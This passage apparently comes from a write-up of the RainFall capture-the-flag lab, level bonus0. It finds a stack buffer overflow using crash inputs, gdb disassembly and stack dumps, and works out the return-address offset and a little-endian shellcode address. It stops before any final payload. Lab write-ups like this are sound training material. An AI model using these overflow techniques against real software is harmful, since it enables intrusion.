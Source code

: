 We have the address of the Shellcode : 0xbffffe93

We have to do some other tests :

bonus0@RainFall:~$ ./bonus0 
 - 
AAAAAAAAAAAAAAAAAAAA
 - 
BBBBCCCCDDDDEEEEDDD
AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEDDD BBBBCCCCDDDDEEEEDDD
Segmentation fault (core dumped)

		20 bytes		19 bytes	1bytes		19 bytes		
<------------------><----------------->|<------------------>
AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEDDD BBBBCCCCDDDDEEEEDDD

We have 20 + 19 + 1 +19 = 59 bytes

Now that we know that, we know we can overflow the s[42], to overwrite the return address of the main function.

0xbffffe93 in little endian = \x93\xfe\xff\xbf

gdb ./bonus0 
(gdb) disas main
Dump of assembler code for function main:
   0x080485a4 <+0>:	push   %ebp
   0x080485a5 <+1>:	mov    %esp,%ebp
   0x080485a7 <+3>:	and    $0xfffffff0,%esp
   0x080485aa <+6>:	sub    $0x40,%esp
   0x080485ad <+9>:	lea    0x16(%esp),%eax			--> 0x16 = 22 --> We know that we put esp at this address,
   														22 seems where we start to write but we are going to verify
   0x080485b1 <+13>:	mov    %eax,(%esp)
   0x080485b4 <+16>:	call   0x804851e <pp>
   0x080485b9 <+21>:	lea    0x16(%esp),%eax
   0x080485bd <+25>:	mov    %eax,(%esp)
   0x080485c0 <+28>:	call   0x80483b0 <puts@plt>		--> We want to put a break point here, before the return address
   0x080485c5 <+33>:	mov    $0x0,%eax
   0x080485ca <+38>:	leave  
   0x080485cb <+39>:	ret    
End of assembler dump.
(gdb) b *0x080485c0
Breakpoint 1 at 0x80485c0
(gdb) run
Starting program: /home/user/bonus0/bonus0 
 - 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA			--> Just to have a recognizable pattern
 - 
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB				--> Same here

Breakpoint 1, 0x080485c0 in main ()
(gdb) x/30x $esp												--> We want to see the stack memory
0xbffff640:	0xbffff656	0x080498d8	0x00000001	0x0804835d
0xbffff650:	0xb7fd13e4	0x41410016	0x41414141	0x41414141		--> its a the first 0x41414141 that we start to write
0xbffff660:	0x41414141	0x41414141	0x42424141	0x42424242
0xbffff670:	0x42424242	0x42424242	0x42424242	0x0ff44242
0xbffff680:	0x4220b7fd	0x42424242	0x42424242	0x42424242
0xbffff690:	0x42424242	0xf4424242	0x00b7fd0f	0xb7fdc858
0xbffff6a0:	0x00000000	0xbffff71c	0xbffff72c	0x00000000
0xbffff6b0:	0x0804824c	0xb7fd0ff4
(gdb) x $esp+21
0xbffff655:	0x41414100		--> NO ! we have a 00 at the end
(gdb) x $esp+22				--> Hihi ! 22 like we said
0xbffff656:	0x41414141		--> Perfect its our AAAA